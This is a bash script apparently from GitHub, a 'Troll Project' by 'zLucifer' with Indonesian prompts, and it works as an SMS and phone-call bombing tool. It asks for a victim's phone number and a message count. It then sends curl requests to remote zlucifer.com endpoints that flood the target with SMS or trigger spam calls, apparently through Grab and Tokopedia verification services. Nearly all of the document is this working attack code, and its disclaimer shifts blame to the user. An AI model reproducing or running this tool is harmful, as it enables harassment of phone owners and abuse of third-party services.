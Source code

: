 # troll-project
#!/bin/bash #/////////////////////////////////////////////////////////////////////////////// #/////////////////////////////////////////////////////////////////////////////// #////                       _            _  __                              //// #////                      | |          (_)/ _|                             //// #////                   ___| |_   _  ___ _| |_ ___ _ __                     //// #////                  |_  / | | | |/ __| |  _/ _ \ '__|                    //// #////                   / /| | |_| | (__| | ||  __/ |                       //// #////                  /___|_|\__,_|\___|_|_| \___|_|                       //// #////                                                                       //// #/////////////////////////////////////////////////////////////////////////////// #/////////////////////////////////////////////////////////////////////////////// #PERINGATAN : KESALAHAN ATAU KEJAHATAN ADALAH TANGGUNG JAWAB DARI PEMAKAI #GUNAKAN TOOLS UNTUK KEBAIKAN JANGAN DISALAH GUNAKAN :) troll(){     clear     sleep 0.03     echo "         _ "     sleep 0.03     echo "        /_)  _.-===-._ "     sleep 0.03     echo "       /  .; '_-.'- .'.     _ "     sleep 0.03     echo "  __ _/  /.'\ ._  '. , \   (_\ "     sleep 0.03     echo " /\_( \  |.'.-._'- .  '|     \ "     sleep 0.03     echo " |_)  /  |/'    ''--''\|     _\__ "     sleep 0.03     echo " \_)_|  /'  ._.   ._.  '\   / )(_\ "     sleep 0.03     echo " )/  (  \_      _      _/   \' (_| "     sleep 0.03     echo " /   /    \           /     _) (_/ "     sleep 0.03     echo " |   '',_ _'._'---'_.'_ _,.'    | \ "     sleep 0.03     echo " \    /  \ \  '''''  / / /     /   \ "     sleep 0.03     echo "  \_.'    \ \       / /  |   .' "     sleep 0.03     echo "   '--.,   \ \     / /  _;-'' "     sleep 0.03     echo "       '|   \ \   / /   | "     sleep 0.03     echo "       .;----'''''''----;. "     sleep 0.03     echo "      /(                 )\ "     sleep 0.03     echo "      \_''-------------''_/ "     sleep 0.03     echo "      | '';-----;-----;'' | "     sleep 0.03     echo "      | / : \ / : \ / : \ | "     sleep 0.03     echo "      |V.','.V.','.V.','.V| "     sleep 0.03     echo "      \'./_\.;./_\.;./_\.'/ "     sleep 0.03     echo "       ';..___________..;' "     sleep 0.03     echo " ============================="     sleep 2     echo " ==      Troll Project      =="     sleep 0.7     echo " =============================" } load(){     echo -e "\n"     bar=" >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>> "     barlength=${#bar}     i=0     while((i&lt;100)); do         n=$((i*barlength / 100))         printf "\e[00;32m\r[%-${barlength}s]\e[00m" "${bar:0:n}"         ((i += RANDOM%5+2))         sleep 0.2     done } get_sms=$(curl -s http://zlucifer.com/api/hackbae.php?request=sms) get_call=$(curl -s http://zlucifer.com/api/hackbae.php?request=call) mulai (){     echo "Gunakan Troll Project Lagi?"     echo "y/n?"     echo     read lagi     if [ $lagi = "y" ]; then             spam     else             echo "Terimakasih sudah menggunakan Troll project"     fi } #spam spam(){     clear     troll     echo     echo "[1] Spam SMS"     echo "[2] Spam Telp"     echo "[3] Close Troll Project"     echo     echo "1/2/3?"     read pilih     if [ $pilih = "1" ]; then             echo "Troll Spam SMS"             #function spam             echo             echo "Silahkan masukan nomor telp target"             echo contoh 0812345678             read target # masukin no telp             echo             echo "Berapa sms yang mau dikirim?"             read paket             echo             echo Apakah nomor $target "dan SMS dikirim "$paket" sudah benar?"             echo y/n?             read confirm             echo             if [ $confirm = "y" ]; then                     load                     clear                     echo Melakukan spam SMS ke nomor $target                     echo                     echo "Jangan close aplikasi sebelum spam selesai"                     echo "========================================"                     target_do=$get_sms'/sms.php?nomor='$target'&amp;paket='$paket                     CURL_RESPONSE=`curl -s -o /dev/null -w "%{http_code}" $target_do`                     echo " Gunakan tools dengan bijak"                     echo                     echo " Love u always "                     echo " -zLucifer"                     echo "======================================="             else                     echo "Kesalahan"             fi         mulai     elif [ $pilih = "2" ]; then             echo "Troll Spam Call"             #function spam             echo             echo "Silahkan masukan nomor telp target"             echo contoh 0812345678             read target # masukin no telp             echo             echo "Gunakan API Grab/Toped?"             echo "[1] GRAB"             echo "[2] TOPED"             echo "1/2?"             read api             if [ $api = "1" ]; then                   api_spam="grab"             else                   api_spam="toped"             fi             echo Apakah nomor $target dan spam menggunakan $api_spam "sudah benar?"             echo y/n?             read confirm             echo             if [ $confirm = "y" ]; then                   load                   clear                   echo Melakukan spam call ke nomor $target                   echo                   echo "Jangan close aplikasi sebelum spam selesai"                   echo "========================================"                   cek_target=`curl -s $get_call/call.php?nomor=$target"&amp;method="$api_spam`                   echo -e $cek_target                   echo " Gunakan tools dengan bijak"                   echo                   echo " Love u always "                   echo " -zLucifer"                   echo "========================================"             else                   echo Kesalahan, silahkan coba lagi             fi         mulai     elif [ $pilih = "3" ]; then         echo "Terimakasih sudah menggunakan Troll project"         close     else         clear         echo "Kesalahan"         mulai     fi } close(){     exit } clear echo "Loading.." load clear troll echo Selamat datang kak, Siapa nick kaka? #tulisan keluar read nick #membaca yang ditulis clear troll echo Selamat datang $nick ":)" echo echo "Mulai troll project?" echo "y/n?" read mulai if [ $mulai = "y" ]; then       spam else       close fi
